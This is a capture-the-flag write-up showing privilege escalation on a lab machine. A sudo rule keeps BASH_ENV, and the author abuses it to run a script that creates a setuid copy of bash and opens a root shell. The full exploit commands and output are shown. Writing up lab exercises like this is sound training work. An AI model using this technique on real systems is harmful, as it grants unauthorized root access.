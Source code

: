 Looing at `sudo -l` output we can see, that there's some `systeminfo` program that we can execute with root priviliges

That program is actually a simple bash script:

```bash
hish@environment:~$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

Here I lost some time, thinking where or how could we hijack execution of these commands, since they are running as root. But after checking `sudo -l` again, I see that I missed crucial `env_keep+="ENV BASH_ENV"` inside. tl;dr it means that we can overwrite bash's internal environment variable, so when we call for `/usr/bin/systeminfo` we could pass our own variable with path to malicious script that will get a root shell when trying to execute bash binary.

### BASH_ENV

Searching web for BASH_ENV gives us this explanation:

    ```
    BASH_ENV is an environment variable in Unix-like systems that 
    specifies the file to be executed when a non-interactive shell is started. 
    It allows users to set up a specific environment for scripts
    or commands run in that shell.
    ```

### Exploit

Now to get root, we'll need to create our own shell script that will copy bash binary with root privileges and then pass this script in `BASH_ENV` variable:

```bash
hish@environment:~$ cat > /tmp/root.sh << 'EOF'
cp /bin/bash /tmp/root-bash
chmod +s /tmp/root-bash
EOF
hish@environment:~$ chmod +x /tmp/root.sh
hish@environment:~$ sudo BASH_ENV=/tmp/root.sh systeminfo && /tmp/root-bash -p

--- systeminfo output ---

root-bash-5.2# cd /root
root-bash-5.2# whoami
root
root-bash-5.2# cat root.txt
********************************
root-bash-5.2#
```
